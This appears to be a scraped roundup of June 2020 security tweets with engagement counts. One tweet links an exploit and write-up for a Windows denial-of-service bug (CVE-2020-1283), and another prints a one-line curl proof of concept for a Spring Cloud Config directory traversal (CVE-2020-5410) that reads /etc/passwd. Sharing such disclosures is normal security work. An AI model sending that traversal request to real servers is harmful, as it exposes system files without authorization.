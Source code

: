 * https://bit.ly/37CAHwp

<table><tr>
<td>Quotes: <code>6</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>106</code></td>
<td>Favorites: <code>229</code></td>
</tr></table>

---

# gweeperx
**https://twitter.com/gweeperx/status/1273187803707432961 _at 2020-06-17 09:36:41_**
<blockquote>
Exploit code and write-up for Windows Denial of Service Vulnerability (CVE-2020-1283)

Don't ask me about MS' description :-)

https://t.co/yw7ctlAGVy
-------
#bug #Microsoft #Windows #0day #exploit #vulnerability #DOS #BSoD #RedyOpsLabs #redteam #pentest #infosec #CVE #bugbounty
</blockquote>

* https://labs.redyops.com/index.php/2020/04/27/dos-via-arbitrary-folder-creation/

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>24</code></td>
<td>Favorites: <code>37</code></td>
</tr></table>

---

# wugeej
**https://twitter.com/wugeej/status/1273061471685971970 _at 2020-06-17 01:14:41_**
<blockquote>
[PoC] CVE-2020-5410 Spring Cloud Config directory traversal vulnerability

curl "127.0.0.1:8888/..%252F..%252F..%252F..%252F..%252F..%252F..%252F..%252F..%252F..%252F..%252Fetc%252Fpasswd%23foo/development"

https://t.co/ZiMuOzHJFK
</blockquote>

* https://github.com/osamahamad/CVE-2020-5410-POC

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>7</code></td>
<td>Favorites: <code>7</code></td>
</tr></table>

---